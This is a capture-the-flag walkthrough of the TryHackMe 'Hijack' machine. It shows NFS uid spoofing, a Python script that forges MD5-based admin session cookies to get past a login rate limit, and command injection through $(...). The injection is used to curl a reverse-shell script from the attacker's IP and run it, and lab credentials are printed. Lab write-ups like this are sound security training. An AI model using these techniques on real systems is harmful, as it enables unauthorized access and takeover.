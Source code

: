 <h3> Hijack TryHackMe </h3>

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f4519c5a-bf39-44bd-989a-195f14153a0c)

Been long since I did a machine from TryHackMe but recently a friend of mine showed me this box so I decided to do it today

First thing first as always is enumeration

I started with an nmap scan and on doing so got me this available tcp ports open
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f87e8f09-67ae-40d2-b363-df0a3f251814)

Ok cool we have ftp, ssh, http and nfs open

Checking the mounts on nfs shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9cbe16a7-bd94-4af9-b594-cc3e375308df)

So anyone can mount the share on `/mnt/share`

I mounted it and saw this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/c244adfe-248f-4ee3-9d4c-d0df276b74c1)

```
- mkdir mnt
- sudo mount -t nfs 10.10.38.234:/mnt/share mnt
```

Well we can't access the mounted share cause our user & group id isn't `1003` but `1001`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/096ae2e0-424f-4142-9298-836923711705)

To solve that I just changed the value from my `/etc/passwd` file (but u can actually create a dummy account and make the uid/gid 1003 then delete when done ...... as for me i'm too lazy to do that)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/32dc459d-a804-457e-b8c2-9f8af0fe0268)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f30871f0-fe8a-4822-bc7d-5ab6a1831519)

```
ftp creds :

ftpuser:W3stV1rg1n14M0un741nM4m4
```

Cool we have the ftp credentials now we can unmount the share and continue enumeration
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b28b3bc2-13e9-42e2-9192-4f32c31c5a22)

Let us check ftp shall we?
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a9598e72-db0f-4502-b673-de6a8cc40f6b)

That seems to be like a user directory and also two non default files are there (which are hidden) 

After transferring it to my host I checked it's content and got this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/26fd23bf-0b0c-4dce-a5d3-ab513dfbadf7)

```
➜  Hijack cat .from_admin.txt 
To all employees, this is "admin" speaking,
i came up with a safe list of passwords that you all can use on the site, these passwords don't appear on any wordlist i tested so far, so i encourage you to use them, even me i'm using one of those.

NOTE To rick : good job on limiting login attempts, it works like a charm, this will prevent any future brute forcing.
➜  Hijack
```

From this note we can tell there's a user called `admin` and he made a password list containing safe passwords. Also he says something to the user `rick` about rate limiting login attempts inorder to prevent future brute force attack

Cool so let's move to the webapp

One thing we can try here is to attempt brute force on ssh for user `admin / rick / root` with the password list but that won't work :P

Time to move to the webapp 

![giphy](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/09557d16-86b1-4eaf-834e-ec228f5613f5)

Going over to port 80 which is the webserver shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/58fae9ca-5379-40a8-a7ee-d715a04062bd)

So we can either login or create account

To save us the trouble of stress I just created an account
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/acd32ee8-8000-4d1f-83fc-508b12e7e482)

Now we can login with the credential `mud:password`

One thing you'd immediately notice is the `Administration` panel 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fba37f5b-b7aa-4b45-a391-1267433727ea)

If you click that you'd see this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/181bbdb4-03f8-4d64-abce-7be6898894b3)

So we need to be logged in as admin before we can access that

Often when webapp checks this kind of permission it either gets it from a database or it can be the cookie 

Since we have no sort of database access here I checked the cookie and saw this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/bd98d584-a07d-43ab-a9b8-9b5f4ef25d78)

Normally when I see `PHPSESSID` as the cookie name I don't really check it because it's usually some random value but that isn't the case here
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ee5af735-fbb5-441b-8d6e-17610f0caeea)

From cyberchef we can see that it decoded from base64 and has `admin` + `:` + some_hash_value

Using [crackstation](https://crackstation.net/) the hash decoded to `password` and I got the hash type to be `MD5`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6f1f459d-5286-4ca1-ba89-f091a239d39e)

At this point we can either do two things:
- Brute force the admin account
- Do some cookie forgery till we get the right admin cookie session

The first case won't be of benefit to us as there's going to be rate limit according to the note from admin 

But the other case will work cause the rate limit is just placed on the login page but not the amount of time you access the web page which makes sense

Now inorder to do that we need to convert `admin:{md5_of_password}` to base64 then make a `GET` request to `/` and if we get a content length which differs from the preceding one then we have our right session

I wrote a python script to do that:

```python
import requests
import hashlib
from base64 import b64encode as encode

url = "http://10.10.182.53/index.php"

with open("passwords.txt", 'r') as fp:
    for password in fp:
        passwd = password.strip('\n').encode()
        hash = hashlib.md5(passwd).hexdigest()
        value = f"admin:{hash}"
        payload = encode(value.encode())
        cookie = {"PHPSESSID": payload.decode()}
        req = requests.get(url, cookies=cookie)
        
        if len(req.text) != 487:
            print(f"Potential Cookie: {payload.decode()}")
            break
```

After running it I got this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a9042b0c-a755-44d1-be8d-37b3539c7d80)

```
➜  Hijack python3 check.py
Potential Cookie: YWRtaW46ZDY1NzNlZDczOWFlN2ZkZmIzY2VkMTk3ZDk0ODIwYTU=
➜  Hijack
```

Now we can change the cookie to that and should be logged in as admin
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/574d00ce-0b6a-4eb4-a0d9-dba14c716239)

Cool let us access the administrator panel
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9420e836-d8a0-46fc-b06f-feb34c254174)

That claims to do a service check on the provided service name

I put `apache` since that's currently running and it works
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f6434c93-9c0e-4937-a940-31016f972937)

This tells us that it is likely running a bash command with our argument provided

This means we can try inject our own command leading to command injection

I first tried the generic payload `;` and got this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/607e756f-7866-42d4-b3e6-68dfaaabd0bd)

```
Command injection detected, please provide a service.
```

Fancy! This can be bypassed easily using `$(command)`
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/295f54d7-ea98-4b9e-85ad-ddca20bd2818)

So I just got a reverse shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/6a307f94-9fa3-45d5-a3f0-9c40a7c983b0)

```
- $(curl 10.6.80.113/rev.sh -o /tmp/a)
- $(bash /tmp/a)
```

In the current directory of the web app shows a configuration file which holds mysql credential
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9a556c0a-d549-4193-aeb7-0f3807b9e83a)

Using the password worked for user `rick` and we can now grab the user flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/46ef276a-6fd6-451d-b8b6-adbc49675955)

```
rick:N3v3rG0nn4G1v3Y0uUp
```



![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/cc9766c7-0691-4712-b222-8c1f12bf0e5b)

